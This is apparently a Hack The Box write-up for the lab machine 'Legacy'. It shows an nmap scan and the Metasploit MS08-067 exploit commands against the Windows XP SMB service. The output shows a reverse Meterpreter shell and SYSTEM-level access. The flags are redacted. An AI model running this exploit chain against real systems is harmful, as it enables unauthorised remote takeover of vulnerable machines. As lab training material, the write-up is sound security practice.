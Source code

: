 ```yaml
---
layout: post
title: Legacy(HTB)
categories:
  - Writeup
---
```

<br>OS Windows
<br>IP: 10.10.10.4
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -Pn 10.10.10.4

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-17 14:28 EST
<br>Nmap scan report for 10.10.10.4
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT     STATE  SERVICE       VERSION
<br><font color="BB69EC">139/tcp</font>  open   netbios-ssn   <font color="53E100">Microsoft Windows netbios-ssn</font>
<br><font color="BB69EC">445/tcp</font>  open   microsoft-ds  <font color="53E100">Microsoft Windows XP microsoft-ds</font>
<br><font color="BB69EC">3389/tcp</font> closed ms-wbt-server
<br>Service Info: OSs: Windows, <font color="53E100">Windows XP</font>; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

<br>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.53 seconds</p>
</div>
</font>

<br>**Vulnerabilty**:- The Target machine is running _**SMB**_ service on a windows XP machine so we can use the netapi exploit which is avaialbe on metsaploit.

<br>**Vulnerabilty Description**:- This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.

<br>**Exploit**:- [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/smb/ms08_067_netapi
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > set RHOST 10.10.10.4
<br>RHOST => 10.10.10.4
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Automatically detecting the target...
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Attempting to trigger the vulnerability...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.4
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (<font color="53E100">10.10.*.*:4444 -> 10.10.10.4:1029</font>) at 2017-12-17 15:45:50 -0500

<br>meterpreter > getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter > shell
<br>Process 624 created.
<br>Channel 1 created.
<br>Microsoft Windows XP [Version 5.1.2600]
<br>(C) Copyright 1985-2001 Microsoft Corp.

<br><font color="BB69EC">C:\WINDOWS\system32></font></p>
</div>
</font>
<br>Using this exploit we got the _System Level Privilege_

<br>**Flags**:-
<font size="1">
<div style="height:150px;width:400px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<br><font color="BB69EC">C:\Documents and Settings\john\Desktop></font>type user.txt</p>
<br><font color="53E100">**********************</font>
<br><font color="BB69EC">C:\Documents and Settings\Administrator\Desktop></font>type root.txt
<br><font color="53E100">**********************</font>
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
